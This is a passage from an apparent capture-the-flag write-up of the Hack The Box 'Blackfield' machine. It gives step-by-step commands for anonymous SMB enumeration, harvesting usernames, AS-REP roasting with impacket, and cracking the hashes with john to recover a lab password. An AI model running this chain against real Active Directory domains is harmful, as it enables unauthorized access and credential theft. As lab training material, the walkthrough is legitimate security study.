 We attempt to enumerate `smb` with a null session using `smbmap` but no dice, however `smbclient` showed us some defaults.

Command:
`smbclient -L ////10.10.10.192// -U ''`

{{< figure src="__GHOST_URL__/content/images/2020/06/image-69.png" >}}

We seem to be able to connect via `rpcclient`.

Command:
`rpcclient -U "" -N 10.10.10.192`

Most commands are denied. We will try to connect to `forensic` and `profiles$` anonymously. 

Command:
`smbclient //10.10.10.192/forensic`

We log in but are denied listing access in this share.

{{< figure src="__GHOST_URL__/content/images/2020/06/image-70.png" >}}

We try again against the `profiles$` share and get quite a few results!

Command:
`smbclient //10.10.10.192/profiles$`

{{< figure src="__GHOST_URL__/content/images/2020/06/image-71.png" >}}

Now we need to take all these usernames and create a user list. We can copy the output of this file and save it as `users.lst`. Now we need to clean it up. To do this we issue a simple `awk` command.

Command:
`cat users.lst | awk '{print $1}' > cleaned_users.lst`

Now we have a cleaned up user list! We can sift through it to see what is listed. There seems to be some interesting accounts for a foothold: `audit2020`, `svc_backup` and `support`. With our listing of users we can try to [roast](https://blog.stealthbits.com/cracking-active-directory-passwords-with-as-rep-roasting/) for hashes.

Command:
`python3 /usr/share/doc/python3-impacket/examples/GetNPUsers.py blackfield.local/ -usersfile cleaned_users.lst -format john -output hashes.lst -dc-ip 10.10.10.192`

{{< figure src="__GHOST_URL__/content/images/2020/06/blackfield_hash.gif" >}}

We get a few hashes we can feed over to `john`.

Command:
`john hashes.lst --wordlist=/usr/share/wordlists/rockyou.txt`

We get back a password of `#00^BlackKnight` for the user `support`.

{{< figure src="__GHOST_URL__/content/images/2020/06/image-72.png" >}}

Now with these credentials we'll want to use them to authenticate back to our `smb` shares and `rpcclient` for futher enumeration. Connecting to the `forensic` share still has listing denied. We are able to connect via `rpcclient` and enumerate a bit further.

Command:
`rpcclient -U "blackfield.local\support" 10.10.10.192`
